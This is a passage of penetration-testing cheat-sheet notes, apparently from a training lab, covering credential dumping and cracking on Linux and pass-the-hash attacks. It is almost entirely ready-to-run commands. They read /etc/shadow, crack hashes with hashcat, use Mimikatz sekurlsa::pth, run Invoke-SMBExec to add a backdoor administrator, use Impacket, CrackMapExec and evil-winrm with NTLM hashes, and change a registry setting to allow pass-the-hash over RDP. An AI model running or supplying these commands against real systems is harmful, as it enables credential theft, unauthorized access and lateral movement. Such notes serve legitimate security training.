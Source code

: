     - /etc/passwd
    - sudo cat /etc/shadow
    - sudo cat /etc/security/opasswd
    - sudo cp /etc/passwd /tmp/passwd.bak
- Cracking Linux Credentials
    - sudo cp /etc/passwd /tmp/passwd.bak
    - sudo cp /etc/shadow /tmp/shadow.bak
    - unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
    - hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
    - cat md5-hashes.list
    - hashcat -m 500 -a 0 md5-hashes.list rockyou.txt

### Pass the Hash (PtH)

- Mimikatz (Windows)
    - Module - `sekurlsa::pth`
        - /user
        - /rc4 or /NTLM
        - /domain
        - /run
    - mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
- PowerShell Invoke-TheHash (Windows)
    - Invoke-TheHash, we have two options: SMB or WMI command execution
    - Target
    - Username
    - Domain
    - Hash
    - Command
    - The following command will use the SMB method for command execution to create a new user named mark and add the user to the Administrators group.
    - Import-Module .\Invoke-TheHash.psd1
    - Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
    - Reverse Shell
        - [https://www.revshells.com/](https://www.revshells.com/)
        - Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command “<powershell>”
- Impacket (linux)
    - different operations such as Command Execution and Credential Dumping, Enumeration
    - command execution psexec
    - impacket-psexec [administrator@10.129.201.126](mailto:administrator@10.129.201.126) -hashes :30B3783CE2ABF1AF70F77D0660CF3453
    - impacket-wmiexec
    - impacket-atexec
    - impacket-smbexec
- CrackmapExec (linux)
    - crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
    - --local-auth
    - (-x) to execute commands
    - crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
- Evil-winrm
    - if smb is blocked
    - evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
    - Note: When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb
- Pass the Hash with RDP (Linux)
    - Enable Restricted Admin Mode to Allow PtH
        - c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
    - xfreerdp /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
- UAC Limits Pass the Hash for Local Accounts